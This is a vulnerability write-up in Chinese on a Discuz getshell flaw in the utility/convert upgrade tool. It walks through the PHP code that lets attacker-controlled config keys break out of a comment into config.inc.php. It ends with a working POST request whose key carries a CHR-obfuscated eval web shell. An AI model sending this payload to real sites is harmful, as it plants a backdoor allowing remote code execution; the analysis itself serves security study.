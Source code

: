# Discuz 全版本，版本转换功能导致Getshell

### 一、漏洞简介

存在问题的代码在/utility/convert/目录下，这部分的功能主要是用于Dz系列产品升级/转换。

### 二、漏洞影响

Discuz 全版本

### 三、复现过程

漏洞分析

入口utility/convert/index.php


```php
require './include/common.inc.php';

$action = getgpc('a');
$action = empty($action) ? getgpc('action') : $action;
$source = getgpc('source') ? getgpc('source') : getgpc('s');
```

取`$_POST['a']`,直接赋值给`$action`，此时`$action = config;`


```php
} elseif($action == 'config' || CONFIG_EMPTY) {      
    require DISCUZ_ROOT.'./include/do_config.inc.php';  
} elseif($action == 'setting') {
```

满足条件，引入./include/do_config.inc.php


```php
@touch($configfile);
 ......
if(submitcheck()) {
    $newconfig = getgpc('newconfig');
    if(is_array($newconfig)) {
        $checkarray = $setting['config']['ucenter'] ? array('source', 'target', 'ucenter') : array('source', 'target');
        foreach ($checkarray as $key) {
      ......
    }
    save_config_file($configfile, $newconfig, $config_default);
```

`$newconfig`从`$_POST[newconfig]`获取数据，save_config_file函数保将`$newconfig`保存到`$configfile`文件中，即config.inc.php文件。跟进该函数。


```php
function save_config_file($filename, $config, $default) {
    $config = setdefault($config, $default);// 将$config中的空白项用 $default 中对应项的值填充
    $date = gmdate("Y-m-d H:i:s", time() + 3600 * 8);
    $year = date('Y');
    $content = <<<EOT
<?php


\$_config = array();

EOT;
    $content .= getvars(array('_config' => $config));
    $content .= "\r\n// ".str_pad('  THE END  ', 50, '-', STR_PAD_BOTH)." //\r\n\r\n?>";
    file_put_contents($filename, $content);
}
```

getvars函数处理，此时的`$config = $newconfig+config.default.php`对应项的补充。看一下getvars函数：


```php
function getvars($data, $type = 'VAR') {
    $evaluate = '';
    foreach($data as $key => $val) {
        if(!preg_match("/^[a-zA-Z_\x7f-\xff][a-zA-Z0-9_\x7f-\xff]*$/", $key)) {
            continue;
        }
        if(is_array($val)) {
            $evaluate .= buildarray($val, 0, "\${$key}")."\r\n";
        } else {
            $val = addcslashes($val, '\'\\');
            $evaluate .= $type == 'VAR' ? "\$$key = '$val';\n" : "define('".strtoupper($key)."', '$val');\n";
        }
    }
    return $evaluate;
}
```

满足if条件会执行buildarray函数，此时`$key=_config`，`$val=`上面的`$config`。最终造成写入的在该函数中（update.php 2206行）：


```php
foreach ($array as $key => $val) {
        if($level == 0) {
            //str_pad — 使用另一个字符串填充字符串为指定长度
            // 第一个参数是要输出的字符串，指定长度为50，用'-'填充，居中
            $newline = str_pad('  CONFIG '.strtoupper($key).'  ', 50, '-', STR_PAD_BOTH);
            $return .= "\r\n// $newline //\r\n";
        }
```

本意是使用`$config`数组的key作为每一块配置区域的`"注释标题"`，写入配置文件的`$newline`依赖于`$key`，而`$key`是攻击者可控的。

未对输入数据进行正确的边界处理，导致可以插入换行符，逃离注释的作用范围，从而使输入数据转化为可执行代码。

**漏洞复现**

在产品升级/转换->选择产品转换程序 ->设置服务器信息 这里抓包，

payload：


```bash
POST /dz/utility/convert/index.php HTTP/1.1
Host: www.0-sec.org:8001
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:74.0) Gecko/20100101 Firefox/74.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 278
Origin: http://127.0.0.1:8001
Connection: close
Referer: http://127.0.0.1:8001/dz/utility/convert/index.php
Upgrade-Insecure-Requests: 1

a=config&source=d7.2_x1.5&submit=yes&newconfig[aaa%0a%0deval(CHR(101).CHR(118).CHR(97).CHR(108).CHR(40).CHR(34).CHR(36).CHR(95).CHR(80).CHR(79).CHR(83).CHR(84).CHR(91).CHR(108).CHR(97).CHR(110).CHR(118).CHR(110).CHR(97).CHR(108).CHR(93).CHR(59).CHR(34).CHR(41).CHR(59));//]=aaaa
```

![](images/15889935166552.png)


参考链接

https://xz.aliyun.com/t/7492#toc-18